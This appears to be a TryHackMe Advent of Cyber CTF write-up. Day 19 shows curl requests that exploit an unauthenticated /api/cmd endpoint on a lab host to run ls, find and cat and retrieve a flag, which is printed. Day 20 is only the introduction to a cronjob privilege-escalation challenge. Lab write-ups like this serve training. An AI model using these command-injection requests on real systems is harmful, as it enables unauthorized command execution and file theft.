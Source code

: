 `2564799a4e6689972f6d9e1c7b406f87065cbf65`

## [Day 19] Commands

Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on http://[your-ip]:3000/

McSkidy actually found something interesting on the /api/cmd endpoint.

Check out the supporting material [here](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit?usp=sharing).

1. What are the contents of the user.txt file?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/
christmas monster was here

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /api/cmd</pre>
</body>
</html>

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/ls
{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/find%20%2f%20-name%20"user.txt"
{"stdout":"/home/bestadmin/user.txt\n","stderr":""}

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/cat%20home%2fbestadmin%2fuser.txt
{"stdout":"5W7WkjxBWwhe3RNsWJ3Q\n","stderr":""}
```

`5W7WkjxBWwhe3RNsWJ3Q`

## [Day 20] Cronjob Privilege Escalation

You think the evil Christmas monster is acting on Elf Sam's account!

Hack into her account and escalate your privileges on this Linux machine.

There is no supporting material - the only new concept in this challenge is Linux cronjobs. Join our [Discord](https://discord.gg/wvfe3XJ) if you're really struggling.
